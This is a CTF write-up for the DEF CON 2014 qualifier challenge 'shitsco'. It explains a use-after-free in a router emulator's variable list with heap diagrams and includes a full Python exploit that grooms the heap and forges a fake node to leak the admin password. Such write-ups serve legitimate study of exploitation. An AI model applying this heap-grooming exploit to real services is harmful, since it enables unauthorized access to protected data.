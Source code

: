 # DEF CON CTF Qualifier 2014: shitsco

**Category:** Gynophage
**Points:** 2
**Description:**

> [http://services.2014.shallweplayaga.me/shitsco_c8b1aa31679e945ee64bde1bdb19d035](shitsco_c8b1aa31679e945ee64bde1bdb19d035) is running at:
>
> `shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337`
>
> Capture the flag.

## Write-up

Shitsco is a small router emulator. It allows you to ping, to tracert, to use the shell (Yhea, right! :D) and to set and view variables. 

As we smell a rat in the variable handling we look into it.

Variables get stored dynamically in a double linked list as shown next.

```c
struct node {
    char *name;
    char *value;
    struct node *next;
    struct node *prev;
};
```

If you create a couple of nodes and delete the first, its strings get freed, their pointers set to NULL but not the link to the next node. Further, commands like show will always start the traversal by the first node, which will succeed until the corresponding memory gets overwritten. Thats what we gonna exploit.

The key is to set variable name and value the same size as a node internally has -> 4 * 4bytes = 16bytes.
So that when adding nodes, the strings and the node itself consume the same amount of memory. 


The following is the memory layout with 3 nodes added(= 3 variables set). Note that there is no first node. The first node is in static memory. Also, every allocated heap block has the same length(size).

```
--------------------------------------------------------------
                   /----link----\
HEAP: [ S ][ S ][ N ][ S ][ S ][ N ][ S ][ S ]    N = Node
                 ^                                S = String
                 |
first.next ------/
--------------------------------------------------------------
```

Because of a bug in the system, the first node never gets unlinked properly.
When we delete it, only the strings get freed and set to NULL. The *next pointer stays the same.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][ N ][ S ][ S ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

Deleting also the second results as depicted next.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

The linked list is still intact because the *next pointers never gets set to NULL when deleting the fist node in the list.

When we now create a new node, the system will use the first static node again and just looks to allocate memory for the name and value. As we created uni-sized blocks, the malloc algorithm would use simply the first two free blocks again. Better would have been, if we had set the first block to a smaller size, let's say 11bytes, so the allocations would be like below.


```
--------------------------------------------------------------
 small\          /----link----\
HEAP: [ ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ----/
--------------------------------------------------------------
```

If we create now a new variable with 16bytes strings, the malloc algorithm would shift right by one because the first block is too small for both. That results in having the value string in the location the *first.next pointer still points to. By using good values for the string and link pointers we can get the password out of the memory.

>set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))


```
--------------------------------------------------------------
                 /----link----\
HEAP: [ ][ S ][ X ][   ][   ][ N ][ S ][ S ]    X = Fake node
first.next ----/
--------------------------------------------------------------
```

After getting the password, we just have needed to use it
> enable SecretPassword
>
> flag

unfotunately, we were not able to solve it in time.


## exploit.py

Set ip and port and use it with ./exploit.py or ./exploit.py -d

```python
#!/bin/python2
import socket
from struct import pack
import logging
import sys

# SETTINGS
###################################
TARGET = 'shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337
#TARGET = 'localhost:5000'

PASSWORD_ADDR =  0x804c3a0
NULL_NODE_ADDR = 0x804c37c

# Don't touch things below
TCP_IP, TCP_PORT = TARGET.split(':')
TCP_PORT = int(TCP_PORT)

BUF_SIZE = 2000
MARKER = 'aaa: '

# LOGGING
logging.basicConfig(format='%(message)s')
log = logging.getLogger(__name__)
if '-d' in sys.argv: log.setLevel(logging.DEBUG)
else: log.setLevel(logging.INFO)
D = log.debug
I = log.info

# HELPERS
###################################
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TCP_IP, TCP_PORT))
    data = s.recv(BUF_SIZE)
    D(data)
    return s

def disconnect(s):
    s.send('quit\n')
    data = s.recv(BUF_SIZE)
    D(data)
    s.close()

def show(s):
    cmd = 'show'
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)
    D(data)
    return data

def set_var(s, name, value='1'):
    cmd = 'set %s %s' % ( name, value)
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

def del_var(s, name):
    cmd = 'set %s' % name
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

# MAIN
###################################
s = connect()

set_var(s, 'a' * 11, '01234567890ABCDEF')
set_var(s, 'b' * 16, 'AKABKN|OWNS!!!111')
set_var(s, 'C' * 16, 'XXXXXXXXXXXXXXXXX')

del_var(s, 'a' * 11)
del_var(s, 'b' * 16)

set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))

data = show(s)
found = data.find(MARKER) if data else 0

if found:
    I('Password: %s', data[found + len(MARKER):data.find('\n$')])

disconnect(s)
```

## Other write-ups

* [Skull Security](https://blog.skullsecurity.org/2014/defcon-quals-writeup-for-shitsco-use-after-free-vuln)
